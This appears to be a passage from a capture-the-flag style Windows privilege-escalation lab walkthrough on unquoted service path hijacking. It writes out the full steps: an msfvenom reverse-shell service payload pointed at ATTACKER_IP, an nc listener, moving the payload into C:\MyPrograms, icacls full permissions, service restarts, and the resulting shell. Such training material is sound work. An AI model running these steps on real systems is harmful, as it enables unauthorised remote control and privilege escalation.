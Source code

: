 The process of creating an exe-service payload with msfvenom and transferring it to the target host is the same as before, so feel free to create the following payload and upload it to the server as before. We will also start a listener to receive the reverse shell when it gets executed:
```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe

user@attackerpc$ nc -lvp 4446
```

Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:

```

Command Prompt

C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.

```

Once the service gets restarted, your payload should execute:

```Command Prompt

C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

As a result, you'll get a reverse shell with svcusr2 privileges:

```

Kali Linux

user@attackerpc$ nc -lvp 4446
Listening on 0.0.0.0 4446
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr2

```

Go to svcusr2 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.


Insecure Service Permissions

You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.
